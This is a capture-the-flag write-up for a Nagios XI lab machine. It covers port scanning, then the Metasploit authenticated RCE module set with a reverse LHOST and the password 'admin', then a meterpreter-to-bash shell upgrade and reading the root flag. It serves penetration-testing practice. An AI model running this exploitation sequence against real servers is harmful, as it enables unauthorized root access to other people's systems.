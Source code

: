 # Montioring 

### Recon

## portcsanning

as usual we begin with a portscan using the following command:

```nmap -sV -sC -P0 <HOST>```

![Alt text](/posts/res/mon1.png)

so from the result of our scan we can see that we have several ports open on our target system.

- ### port ***80(http)***

- ### port ***25(smtp)***

- ### port ***22(ssh)***

- ### port ***443(http- Apache)***

- ### port ***389(ldap)***

now since we have both port 80 and 443 runnng an apache web server lets navigate to the webpage and see what we have.


![Alt text](/posts/res/mon2.png)


we can see a button which says ***Click the link below to get started using Nagios XI.***. once we do that we can now see a login page load up.


![Alt text](/posts/res/mon3.png)

so i tried out some various default login creds but they didnt seem to work.

well, lets try to use search for an exploit of some sort on using the searchsploit utility. 


![Alt text](/posts/res/mon4.png)

we can load up the metasploit using the following command: 

```msfconsole```

```search nagios```


![Alt text](/posts/res/mon5.png)

```use exploit/linux/http/nagios_xi_mibs_authenticated_rce```

- ```set RHOST <machine IP> ```

- ```set LHOST <attack-machine-ip>```

- ```set password admin```

- ```run```

![Alt text](/posts/res/mon6.png)

now we have gained a meterpreter shell let's drop into a regular shell.

command: ```shell```

to upgrade to a better abd stable shell we use the following command:

```python -c "import pty; pty.spawn('/bin/bash')"```

![Alt text](/posts/res/mon7.png)

luckly we gained access as the root user. to locate the flag we navigate to ***/root*** directory and then read the flag using the following command:

```cd /root```

```cat proof.txt```


![Alt text](/posts/res/mon8.png)



